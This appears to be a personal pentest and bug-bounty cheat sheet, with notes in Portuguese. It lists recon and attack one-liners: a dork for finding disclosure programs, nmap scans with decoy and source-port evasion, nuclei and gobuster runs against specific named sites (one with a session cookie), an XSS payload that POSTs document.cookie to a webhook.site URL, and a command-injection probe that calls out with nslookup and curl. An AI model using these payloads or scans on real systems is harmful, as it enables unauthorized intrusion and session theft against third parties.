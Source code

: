 "Vulnerability Disclosure Program" "VDP" site:uk -bughunt -hackerone -intigriti -bugcrowd -yeswehack

https://dorks.faisalahmed.me/


nmap -sU -p 53 --script=dns-nsid 10.129.2.48 -> ver~soa dns do servidor alvo pode ser vuln de exposição de dados sensiveis etc


subfinder -all -d alvo.com -recursive | httpx | nuclei -nmhe -t ./nuclei-templates/http/cves/2025/CVE-2025-0133.yaml


nmap 10.129.4.84 -sV -D RND:2 -Pn -sU -sS -g53 --max-retries 2 --script-args http.useragent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36" -p-

nuclei -t cves/ -u http://alvo.com -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64)"

extensão dotgit, wappalyzer, shodan, DNSlytics

nuclei -u https://cursos.rizomasur.org -tags moodle

`
<img src="x" onerror="fetch('https://webhook.site/de5d7883-a25c-41cd-beb6-113d2b50a605',{method:'POST',body:'cookie='+document.cookie})">
`

gobuster dir -u https://app.homolog.itamaraty.local/GestaoFinanceira/Pages/Dashboard/   -w /usr/share/wordlists/dirb/common.txt   -t 50   -H 'Host: app.homolog.itamaraty.local'   -H 'Cookie: ASP.NET_SessionId=whvgzv2plsyzvnglugu2kxyc; outro_cookie=valor'   -k -x html,php,js,aspx,bat,txt,zip

- ;(nslookup -q=cname hitvvbmacavlf462a1.bxss.me||curl hitvvbmacav  (passar em alguns headers)
  <img width="265" height="238" alt="image" src="https://github.com/user-attachments/assets/5ec6aab3-0e33-4fb5-b94e-42f2c5143f1f" />
  <img width="201" height="213" alt="image" src="https://github.com/user-attachments/assets/2be4433b-e94d-48cb-8053-35259838100e" />



- https://github.com/santoru/shcheck -> ver se tem alguns headers vulneraveis

